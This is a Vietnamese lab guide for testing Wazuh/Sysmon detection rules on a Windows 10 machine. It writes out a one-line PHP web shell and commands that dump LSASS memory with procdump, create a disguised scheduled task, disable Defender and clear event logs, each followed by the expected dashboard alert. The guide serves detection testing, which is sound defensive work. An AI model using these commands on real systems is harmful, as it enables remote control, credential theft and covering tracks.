






# Kịch bản 3: Hậu khai thác và Thao túng Máy chủ (Test Mảng 3 - Sysmon)

*Giả sử hacker đã lách qua được Suricata, tải thành công Web Shell lên máy chủ Windows 10 và bắt đầu chiếm quyền điều khiển.*

* * *

## Test 1: Rule 100301 - Web Shell

### Bước 1: Khởi động máy chủ Web (Apache)

1.  Mở **XAMPP Control Panel** (với quyền Admin cho chắc chắn).
    
2.  Tại dòng **Apache**, bấm nút **Start**. Đợi chữ Apache chuyển sang nền màu xanh lá cây là máy chủ Web đã sẵn sàng. *(Tiến trình chạy ngầm lúc này của Apache có tên là `httpd.exe`).*
    

### Bước 2: "Trồng" Webshell vào hệ thống

Chúng ta sẽ đóng vai một Hacker vừa khai thác thành công lỗ hổng upload file và nhét được một con Webshell (file PHP) vào thư mục gốc của Web.

1.  Truy cập vào thư mục chứa code của XAMPP: `C:\xampp\htdocs\`
    
2.  Trong thư mục này, tạo một file văn bản mới, đặt tên là `shell.php`.
    
3.  Mở file `shell.php` bằng Notepad, dán đúng 1 dòng code PHP "tử thần" này vào và lưu lại:
    
    PHP
    
    ```
    <?php if(isset($_GET['cmd'])) { system($_GET['cmd']); } ?>
    ```
    

*(Lệnh `system()` trong PHP sẽ yêu cầu Windows mở `cmd.exe` lên để chạy bất cứ thứ gì bạn truyền vào qua biến `cmd`).*

### Bước 3: Đóng vai Hacker thực thi lệnh

Bây giờ, hãy dùng chính trình duyệt web (Edge hoặc Chrome) trên máy Windows đó (hoặc từ máy Kali/Ubuntu truy cập vào IP của máy Windows) để ra lệnh cho hệ thống.

1.  Mở trình duyệt web.
    
2.  Gõ đường dẫn này lên thanh địa chỉ và nhấn Enter:
    
    Plaintext
    
    ```
    http://localhost/shell.php?cmd=whoami
    ```
    
3.  Tiếp tục gõ thử một lệnh khác để tạo thêm log:
    
    Plaintext
    
    ```
    http://localhost/shell.php?cmd=ipconfig
    ```
    

Nếu trên màn hình trình duyệt in ra tên user của máy (ví dụ: `desktop-abc\windows_victim`) hoặc thông tin mạng IP, nghĩa là Webshell đã chạy thành công! Máy chủ Web vừa bị ép phải mở Command Prompt ngầm.

### Bước 4: Kiểm tra thành quả trên Wazuh Dashboard

Giờ là lúc Blue Team tỏa sáng. Logic của Sysmon (Event ID 1 - Process Creation) lúc này ghi nhận được một điều cực kỳ bất thường: *Tại sao một phần mềm phục vụ Web (`httpd.exe`) lại đi mở giao diện dòng lệnh (`cmd.exe`)?*

Bạn hãy sang Wazuh Dashboard:

1.  Vào tab **Discover**.
    
2.  Lọc thanh tìm kiếm với cú pháp: `rule.id:"100301"`.
    
3.  Bấm **Refresh**.
    

Bạn sẽ thấy cảnh báo Webshell Execution hiện lên. Khi mở rộng (Expand) log ra để xem chi tiết, bạn sẽ thấy rõ minh chứng để đưa vào báo cáo:

- **ParentImage:** `C:\xampp\apache\bin\httpd.exe` (Tiến trình cha)
    
- **Image:** `C:\Windows\System32\cmd.exe` (Tiến trình con)
    
- **CommandLine:** Chứa lệnh `whoami` hoặc `ipconfig` mà bạn vừa gõ.
    



* * *

## Test 2: Rule 100302 - Thao tác trộm mật khẩu bằng Vssadmin

Để trộm được mật khẩu Windows (file NTDS.dit) đang bị hệ thống khóa, Hacker thường dùng công cụ `vssadmin` có sẵn của Windows để tạo một bản sao lưu ngầm (Shadow Copy) rồi trích xuất từ đó. Rule của chúng ta sẽ bắt vào trường `OriginalFileName` để chống lại việc Hacker đổi tên file `vssadmin.exe` thành tên khác.

**Cách test:**

1.  Bấm phím Windows, gõ `cmd`, chuột phải chọn **Run as Administrator** (Bắt buộc phải có quyền Admin).
    
2.  Chạy lệnh liệt kê bản sao lưu:
    
    ```
    vssadmin list shadows
    ```
    

👉 **Kết quả mong đợi:** Dashboard nổ cảnh báo Level 10: *Endpoint WARNING: Credential dumping tool executed \[vssadmin.exe\]*.



* * *

## Test 3: Rule 100303 - Tải mã độc bằng PowerShell

Hacker thường dùng PowerShell để âm thầm tải payload từ trên mạng về máy nạn nhân bằng các lệnh như `Invoke-WebRequest` (iwr).

**Cách test:**

1.  Bấm phím Windows, gõ `cmd` và mở Command Prompt (không cần quyền Admin).
    
2.  Chạy câu lệnh giả lập việc gọi PowerShell ra Internet:
    
    ```
    powershell.exe -NoProfile -Command "Invoke-WebRequest -Uri https://google.com"
    ```
    

*(Lệnh này chỉ tải trang chủ Google về nên hoàn toàn vô hại, nhưng Sysmon sẽ bắt được cụm từ nhạy cảm `Invoke-WebRequest` trong dòng lệnh).* 👉 **Kết quả mong đợi:** Dashboard nổ cảnh báo Level 12: *Endpoint CRITICAL: Suspicious PowerShell execution detected*.



* * *

## Test 4: Rule 100304 — Persistence (Scheduled Task)

Hacker thường tạo một Task định kỳ để mã độc tự khởi động lại sau khi máy tính restart hoặc sau mỗi khoảng thời gian nhất định.

- **Cách test:** Mở CMD (Admin) và chạy lệnh tạo một task giả:
    
    ```
    schtasks /create /tn "MicrosoftUpdater" /tr "cmd.exe" /sc hourly /mo 1
    ```
    
    *(Lệnh này tạo một task tên là "MicrosoftUpdater" chạy cmd mỗi giờ một lần).*
    
- **Kết quả:** Dashboard nổ **Rule 100304** (Level 10).
    



* * *

## Test 5: Rule 100305 — LSASS Access (Credential Theft)

Hacker dùng các công cụ như Mimikatz để đọc bộ nhớ của tiến trình `lsass.exe` nhằm lấy mật khẩu dạng clear-text. Chúng ta sẽ dùng chính công cụ `procdump` của Microsoft (một công cụ hợp lệ) để giả lập hành vi này.

### Giai đoạn 1: Thiết lập bộ lọc nhiễu cho Sysmon (Trên máy Windows 10)

Mục tiêu là cấu hình để Sysmon bắt được hành vi chọc vào bộ nhớ `lsass.exe` (Event ID 10) nhưng chỉ bắt các công cụ tấn công (như procdump/mimikatz) để tránh làm tràn log hệ thống.

1.  **Tạo file cấu hình `smart_lsass.xml`:** Mở CMD (quyền Admin) và chạy khối lệnh sau để tự động tạo file cấu hình:

- (  
    echo ^&lt;Sysmon schemaversion="4.90"^&gt;  
    echo ^&lt;EventFiltering^&gt;  
    echo ^&lt;ProcessAccess onmatch="include"^&gt;  
    echo ^&lt;SourceImage condition="contains"^&gt;procdump^&lt;/SourceImage^&gt;  
    echo ^&lt;SourceImage condition="contains"^&gt;mimikatz^&lt;/SourceImage^&gt;  
    echo ^&lt; /ProcessAccess^&gt;  
    echo ^&lt; /EventFiltering^&gt;  
    echo ^&lt;/Sysmon^&gt;  
    ) > smart_lsass.xml
    
    ```
    (
    echo ^<Sysmon schemaversion="4.90"^>
    echo   ^<EventFiltering^>
    echo     ^<ProcessAccess onmatch="include"^>
    echo       ^<SourceImage condition="contains"^>procdump^</SourceImage^>
    echo       ^<SourceImage condition="contains"^>mimikatz^</SourceImage^>
    echo     ^< /ProcessAccess^>
    echo   ^< /EventFiltering^>
    echo ^</Sysmon^>
    ) > smart_lsass.xml
    ```
    

3.  **Nạp cấu hình vào Sysmon:** Chạy lệnh sau để Sysmon áp dụng bộ lọc mới:
    
4.  sysmon64.exe -c smart_lsass.xml
    
    ```
    sysmon64.exe -c smart_lsass.xml
    ```
    
5.  *(Chờ màn hình báo `Configuration updated` là thành công).*
    

### Giai đoạn 2: Chạy và Kiểm tra

Đây là bước đóng vai Hacker tấn công và Blue Team kiểm tra Dashboard.

1.  **Tải bộ [Sysinternals Suite](https://www.google.com/search?q=https://download.sysinternals.com/files/Procdump.zip) (nếu chưa có `procdump.exe`).**
    
    - *(Lưu ý: Defender có thể chặn procdump, bạn nên tắt Defender trước khi test).*
        
        - Trên Windows 10, mở **Windows Security**.
            
        - Chọn **Virus & threat protection** > **Manage settings**.
            
        - Tắt tạm thời **Real-time protection** (Chỉ tắt trong lúc làm Lab).
            
2.  **Chạy lệnh tấn công (Trên máy Windows 10):** Mở CMD (quyền Admin), trỏ đường dẫn tới thư mục chứa công cụ Sysinternals và chạy lệnh:
    
    - C:\\Users\\Windows_Victim\\Downloads\\SysinternalsSuite\\procdump64.exe -accepteula -ma lsass.exe lsass_dump.dmp
        
        ```
        C:\Users\Windows_Victim\Downloads\SysinternalsSuite\procdump64.exe -accepteula -ma lsass.exe lsass_dump.dmp
        ```
        
    - *(Chờ màn hình báo `Dump 1 complete`).*
        
3.  **Xác nhận thành quả (Trên Wazuh Dashboard):**
    
    - Truy cập giao diện Web của Wazuh.
    - Vào tab **Discover** hoặc **Security Events**.
    - Lọc thanh tìm kiếm với cú pháp: `rule.id:"100305"`.
    - Bấm **Refresh**.

- **Kết quả:** Dashboard hiện **Rule 100305** (Level 14 - Cực kỳ nghiêm trọng).
    
    - 

* * *

## Test 6: Rule 100306 — Xóa dấu vết

Sau khi đạt được mục đích xong, thao tác cuối cùng của Hacker thường là xóa lịch sử (Clear Logs) để qua mặt Blue Team.

**Cách test:**

1.  Ở cửa sổ Command Prompt quyền Admin, bạn gõ lệnh gọi PowerShell xóa log của Application:
    
    ```
    powershell.exe -Command "Clear-EventLog -LogName Application"
    ```
    
    *(Hoặc bạn có thể mở Windows Event Viewer bằng tay, chuột phải vào Application và chọn Clear Log).* 👉 **Kết quả mong đợi:** Dashboard nổ cảnh báo Level 12: *Endpoint CRITICAL: Windows Event Logs have been cleared (Defense Evasion)*.
    

